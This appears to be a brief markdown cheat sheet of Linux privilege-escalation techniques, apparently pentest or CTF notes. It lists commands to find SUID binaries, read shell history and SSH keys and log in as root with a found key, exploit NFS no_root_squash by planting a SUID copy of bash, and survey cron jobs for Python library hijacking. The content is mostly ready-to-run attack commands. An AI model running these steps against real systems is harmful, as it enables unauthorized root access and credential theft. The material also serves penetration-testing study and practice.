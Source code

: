 
## SUID SGID Binaries

[SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

### Find SUID Files
```
find / -perm -u=s -type f 2>/dev/null
```


## Looting Passwords

```
ls -la

cat .*history

cd .ssh && ls

ssh -i root_key root@<IP Addr>
```


## NFS Root Squashing

### Check for "no_root_squash"
```
cat /etc/exports
```

### Mount
```
mkdir /tmp/nfs_share

sudo su

mount -o rw,vers=2 <IP Addr>:/<path> /tmp/nfs_share/

cp /bin/bash ./cash

chmod u+s cash
```


## Python Module Injection

[Python Library Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

```
ps aux | grep root

cat /etc/crontab

ls /tmp

cd /opt && ls
```


